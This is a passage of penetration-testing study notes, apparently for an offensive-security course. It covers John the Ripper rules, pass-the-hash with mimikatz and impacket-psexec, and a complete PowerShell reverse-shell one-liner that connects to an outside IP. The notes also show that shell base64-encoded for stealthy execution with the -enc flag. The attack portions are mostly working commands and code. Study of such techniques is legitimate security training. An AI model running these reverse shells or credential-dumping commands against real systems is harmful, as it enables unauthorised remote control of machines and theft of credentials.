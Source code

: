 				c $1 $3 $7 $!
				c $1 $3 $7 $@
				c $1 $3 $7 $#
				```
				{: file="/etc/john/john.conf"}
- Pass the hash mimikatz commands:
	- **privilege::debug**, **token::elevate**, and **lsadump::sam**
- Pass the hash impacket:
	- `impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212`
	-
		> The format is  
		"LMHash:NTHash", in which we specify the Administrator NTLM hash after  
		the colon. Since we only use the NTLM hash, we can fill the LMHash  
		section with 32 0's.  

### Working With Password Hashes
- [Powershell reverse shell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3):
	```powershell
	$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
	```
- When base64 encoding commands for use with the `-enc` flag in powershell, make sure you encode Unicode text:
	```bash
	kali@kali:~$ pwsh
	PowerShell 7.1.3
	Copyright (c) Microsoft Corporation.
	https://aka.ms/powershell
	Type 'help' to get help.
	
	PS> $Text = '$client = New-Object
	System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream =
	$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0,
	$bytes.Length)) -ne 0){;$data = (New-Object -TypeName
	System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-
	String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte =
	([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Leng
	th);$stream.Flush()};$client.Close()'
	
	PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
	
	PS> $EncodedText =[Convert]::ToBase64String($Bytes)
	
	PS> $EncodedText
	JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAF
	MAbwBjAGsAZQB0
	...
	AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjA
	GwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
	```
